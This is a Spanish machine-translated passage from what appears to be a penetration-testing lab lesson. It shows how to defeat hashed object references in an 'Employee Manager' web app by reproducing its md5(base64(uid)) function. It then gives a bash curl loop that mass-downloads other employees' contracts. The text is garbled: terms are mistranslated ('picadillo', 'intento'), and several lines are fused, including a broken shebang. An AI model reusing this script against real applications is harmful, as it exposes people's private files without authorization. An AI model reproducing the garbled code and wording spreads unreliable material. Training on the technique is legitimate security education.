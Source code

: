 # Bypassing Encoded References

En la sección anterior, vimos un ejemplo de un IDOR que usa UID de empleados en texto claro, lo que facilita la enumerar. En algunos casos, las aplicaciones web dificultan o codifican sus referencias de objetos, lo que dificulta la enumeración, pero aún puede ser posible.

Volvamos al`Employee Manager`aplicación web para probar el`Contracts`Funcionalidad:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

Si hacemos clic en el`Employment_contract.pdf`Archivo, comienza a descargar el archivo. La solicitud interceptada en Burp se ve de la siguiente manera:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

Vemos que está enviando un`POST`solicitar`download.php`Con los siguientes datos:

Código:php

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b

```

Usando un`download.php`El script para descargar archivos es una práctica común para evitar vincular directamente a los archivos, ya que puede ser explotable con múltiples ataques web. En este caso, la aplicación web no está enviando la referencia directa en ClearText, sino`md5`formato. Los hashes son funciones unidireccionales, por lo que no podemos decodificarlos para ver sus valores originales.

Podemos intentar tener varios valores, como`uid`, `username`, `filename`, y muchos otros, y ver si alguno de sus`md5`Los hashes coinciden con el valor anterior. Si encontramos una coincidencia, podemos replicarla para otros usuarios y recopilar sus archivos. Por ejemplo, intentemos comparar el`md5`hash de nuestro`uid`, y vea si coincide con el hash anterior:

Omitiendo referencias codificadas

```
xnoxos@htb[/htb]$ echo -n 1 | md5sumc4ca4238a0b923820dcc509a6f75849b -

```

Desafortunadamente, los hashes no coinciden. Podemos intentar esto con varios otros campos, pero ninguno de ellos coincide con nuestro hash. En casos avanzados, también podemos utilizar`Burp Comparer`y confunde varios valores y luego compare cada uno con nuestro hash para ver si encontramos alguna coincidencia. En este caso, el`md5`El hash podría ser por un valor único o una combinación de valores, lo que sería muy difícil de predecir, lo que hace que esta referencia directa sea un`Secure Direct Object Reference`. Sin embargo, hay un defecto fatal en esta aplicación web.

---

# **Divulgación de funciones**

Como la mayoría de las aplicaciones web modernas se desarrollan utilizando marcos JavaScript, como`Angular`, `React`, o`Vue.js`, muchos desarrolladores web pueden cometer el error de realizar funciones sensibles en el front-end, lo que los expondría a los atacantes. Por ejemplo, si el hash anterior se estaba calculando en el front-end, podemos estudiar la función y luego replicar lo que está haciendo para calcular el mismo hash. Afortunadamente para nosotros, este es precisamente el caso en esta aplicación web.

Si echamos un vistazo al enlace en el código fuente, vemos que está llamando a una función de JavaScript con`javascript:downloadContract('1')`. Mirando el`downloadContract()`función En el código fuente, vemos lo siguiente:

Código:javascript

```jsx
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}

```

Esta función parece estar enviando un`POST`Solicitar con el`contract`Parámetro, que es lo que vimos arriba. El valor que está enviando es un`md5`hash usando el`CryptoJS`Biblioteca, que también coincide con la solicitud que vimos anteriormente. Entonces, lo único que queda por ver es qué valor se está dando.

En este caso, el valor que se ha hecho es`btoa(uid)`, que es el`base64`cadena codificada del`uid`variable, que es un argumento de entrada para la función. Volviendo al enlace anterior donde se llamaba la función, lo vemos llamando`downloadContract('1')`. Entonces, el valor final que se usa en el`POST`la solicitud es el`base64`cadena codificada de`1`, que era entonces`md5`Hashed.

Podemos probar esto por`base64`codificando nuestro`uid=1`, y luego lo hashes con`md5`, como sigue:

Omitiendo referencias codificadas

```
xnoxos@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sumcdd96d3cc73d1dbdaffa03cc6cd7339b -

```

**Consejo:**Estamos usando el`-n`marcar con`echo`, y el`-w 0`marcar con`base64`, para evitar agregar nuevas líneas, para poder calcular el`md5`hash del mismo valor, sin hash nuevas líneas, ya que eso cambiaría la final`md5`picadillo.

Como podemos ver, este hash coincide con el hash en nuestra solicitud, lo que significa que hemos revertido con éxito la técnica de hash utilizada en las referencias de objetos, convirtiéndolos en Idor. Con eso, podemos comenzar a enumerar los contratos de otros empleados utilizando el mismo método de hashing que utilizamos anteriormente.`Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

---

# **Enumeración masiva**

Una vez más, escribamos un script bash simple para recuperar todos los contratos de empleados. La mayoría de las veces, este es el método más fácil y eficiente para enumerar datos y archivos a través de vulnerabilidades IDOR. En casos más avanzados, podemos utilizar herramientas como`Burp Intruder`o`ZAP Fuzzer`, pero un simple script bash debería ser el mejor curso para nuestro ejercicio.

Podemos comenzar calculando el hash para cada uno de los primeros diez empleados que usan el mismo comando anterior mientras usan`tr -d`Para eliminar el arrastre`-` personajes, como sigue:

Omitiendo referencias codificadas

```
xnoxos@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; donecdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd

```

A continuación, podemos hacer un`POST`solicitar`download.php`con cada uno de los hashes anteriores como el`contract`valor, que debería darnos nuestro guión final:

Código:intento

```bash
#!/bin/bashfor i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

```

Con eso, podemos ejecutar el guión, y debería descargar todos los contratos para los empleados 1-10:

Omitiendo referencias codificadas

```
xnoxos@htb[/htb]$ bash ./exploit.shxnoxos@htb[/htb]$ ls -1contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf

```

Como podemos ver, debido a que podríamos revertir la técnica de Hashing utilizada en las referencias de objetos, ahora podemos explotar con éxito la vulnerabilidad IDOR para recuperar los contratos de todos los demás usuarios.